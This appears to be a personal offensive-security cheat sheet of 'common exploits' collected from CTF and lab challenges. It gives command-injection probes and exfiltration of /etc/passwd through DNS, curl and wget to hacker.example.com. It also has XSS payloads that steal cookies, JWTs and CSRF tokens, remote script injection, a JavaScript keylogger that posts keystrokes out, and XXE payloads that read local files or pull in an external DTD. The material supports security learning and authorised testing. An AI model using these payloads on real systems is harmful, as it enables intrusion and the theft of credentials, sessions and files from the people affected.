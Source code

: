 # Common Exploits

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is the way to go, but I noted down some of mine.

<hr class="sep-both">

## Command Execution

<div class="row row-cols-lg-2"><div>

#### Command Execution — In-Band

[![powershell_command_injection](../../../../_badges/rootme/app_script/powershell_command_injection.svg)](https://www.root-me.org/en/Challenges/App-Script/Powershell-Command-Injection)
[![powershell_basic_jail](../../../../_badges/rootme/app_script/powershell_basic_jail.svg)](https://www.root-me.org/en/Challenges/App-Script/Powershell-Basic-jail)

Linux commands:

```shell!
$ pwd
$ whoami
$ whoami;id
$ whoami||id
$ cat /etc/passwd
```

Windows commands:

```shell!
PS> whoami
PS> $(whoami)
PS> $(Get-ChildItem Env:)
PS> $(command|Out-string) | powershell command
```
</div><div>

#### Command Execution — Out-Of-Band

Use DNS-exfiltration to extract the command output:

```shell!
$ nslookup `whoami`.domain.com
$ nslookup $(whoami).domain.com
```

Extracting files using HTTP:

```shell!
$ curl -F "key=@/etc/passwd" https://hacker.example.com
$ wget --post-file=/etc/passwd https://hacker.example.com
```

Redirect output to an exposed HTML file:

```shell!
$ cat /etc/passwd > /var/www/html/output.txt
```

Add a time delay:

```shell!
$ true && sleep 5
```
</div></div>

<hr class="sep-both">

## JavaScript

*Real examples of malicious code can be found at [XSS-payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all) <small>(💥?)</small>.*

<div class="row row-cols-lg-2"><div>

#### JavaScript — Fingerprint

[![xssgi](../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)

We sometimes need to check a few things:

* `document.domain`: current domain name
* `window.location`: current URL
* `window.origin`: when inside a IFRAME
* `"fieldname"`: to make sure which field is vulnerable

Often with `alert(...)` or `console.log(...)` or `print()` for `<iframe>`.

#### JavaScript — Steal Cookie

[![cross_site_scripting](../../../../_badges/htb/cross_site_scripting.svg)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)
[![xssgi](../../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![xss_stored_1](../../../../_badges/rootme/web_client/xss_stored_1.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)
[![xss_dom_based_introduction](../../../../_badges/rootme/web_client/xss_dom_based_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)
[![xss_dom_based_filters_bypass](../../../../_badges/rootme/web_client/xss_dom_based_filters_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass)
[![csp_bypass_nonce](../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)
[![xss_reflected](../../../../_badges/rootme/web_client/xss_reflected.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)
[![xss_stored_filter_bypass](../../../../_badges/rootme/web_client/xss_stored_filter_bypass.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)
[![xss_dom_based](../../../../_badges/rootme/web_client/xss_dom_based.svg)](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![xss_to_bypass_cors](../../../../_badges/ps-lab/xss/xss_to_bypass_cors.svg)](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
[![stealing_cookies](../../../../_badges/ps-lab/xss/stealing_cookies.svg)](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)

Classic fetch cookie with/without space handling

```javascript!
fetch('https://hacker.example.com/?cookie=' + document.cookie)

fetch('https://hacker.example.com/?cookie=' + btoa(document.cookie))

fetch('https://hacker.example.com/?cookie=' + encodeURIComponent(document.cookie))
```

Double nested fetch for Anti-CSRF Token bypass

```javascript!
fetch('https://hacker.example.com/admin/')
	.then(r=>r.text())
	.then(html => {
        const parser = new DOMParser();
        const doc = parser.parseFromString(html, 'text/html');
        const csrfToken = doc.querySelector('input[name="csrf"]')?.value;
        fetch('https://hacker.example.com/admin/enable', {
			'credentials': 'include',
			'headers': {
				'Content-Type': 'application/x-www-form-urlencoded',
			},
			"body": "username=jdoe&csrf="+csrfToken,
			"method": "POST",
			"mode": "cors"
		});
    })
```

Location-based (CORS bypass).

```javascript!
location="https://hacker.example.com/?cookie="+document.cookie
```

JWT exfiltration using location.

```javascript!
fetch("/api/token", {
  "headers": {
    "accept": "*/*",
  },
  "mode": "no-cors",
  "body": null,
  "method": "GET",
  "credentials": "include"
}).then(r=>r.json()).then(r=>location.href='https://hacker.example.com/?' +r.apikey);
```

Fetch using alternate method

```javascript!
fetch('https://hacker.example.com', { method: 'POST', mode: 'no-cors', credentials: 'include', body: btoa(document.cookie) });
```
</div><div>

#### JavaScript — Fetch Using Images

Images may have been blocked but fetch may have not.

```javascript!
new Image().src = "https://hacker.example.com/?cookie="+btoa(document.cookie);
// image reuse (must have one)
document.images[0].src = "https://hacker.example.com/?cookie="+btoa(document.cookie)
// longer version
document.body.appendChild(Object.assign(document.createElement('img'), { src: "X"+btoa(document.cookie) }));
// alternative payload
let imageElement = document.createElement("img"); imageElement.src = "https://hacker.example.com/?cookie="+btoa(document.cookie); document.body.appendChild(imageElement);
```

#### JavaScript — Inject Script Tag

Inject a remote external JavaScript file, useful when length is limited or there is a need to bypass some protections.

```javascript!
document.write`<script src=//example.com>`

appendChild(createElement`script`).src='//example.com/x.js'

document.body.appendChild(document.createElement`script`).src='//example.com/x.js'

s=document.createElement('script');s.src='//example.com/x.js';document.body.appendChild(s);

(s=>document.body.appendChild(s))(document.createElement('script')).src='//example.com/x.js'

document.appendChild(Object.assign(document.createElement('script'),{src:'//example.com/x.js'}));
```

#### JavaScript — Submit Form

Mostly in CSRF context, submit a form.

```javascript!
document.forms[0].submit()
document.getElementById('my_form').submit()
```

#### JavaScript — Keylogger

Sends pressed keys to a malicious website. The code is using `btoa()` to encode in base64 the values.

```javascript!
let keys = ''
document.onkeydown = e => keys += e.key
setInterval(() => {
    if (keys === '') return
    fetch('https://example.com/keylogger?key=' + btoa(keys) )
    keys = ''
}, 1000)
```
</div></div>

<hr class="sep-both">

## XML DTD

<div class="row row-cols-lg-2"><div>

#### XML DTD — File-based payloads

We can use the `file://` protocol to read simple files.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root>&xxe;</root>
```

#### XML DTD — File-based payloads

We can use the `php://` protocol with [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md).

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
<root>&xxe;</root>
```

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<root>&xxe;</root>
```

#### XML DTD — Load An External DTD

To load the following file: `https://OUR_IP:PORT/xxe.dtd`.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % dtd SYSTEM "https://YOUR_IP:PORT/xxe.dtd"> %dtd;]>
<root>&xxe;</root>
```
</div><div>

#### XML DTD — File-based payloads with CDATA

CDATA payloads can only be used by an external DTD but due to security protections in most XML parsers when merging XML parameter entities (`%`).

Expose the following XML at `https://OUR_IP:PORT/xxe.dtd`:

```xml!
<!ENTITY % begin "<![CDATA[">
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % end "]]>">
<!ENTITY xxe "%begin;%file;%end;">
```

#### XML DTD — XSS Payload using CDATA

If the XML is displayed, you can try an XSS attack using CDATA.

```xml!
<?xml version="1.0"?>
<root><![CDATA[<script>console.log('test')</script>]]></root>
```
</div></div>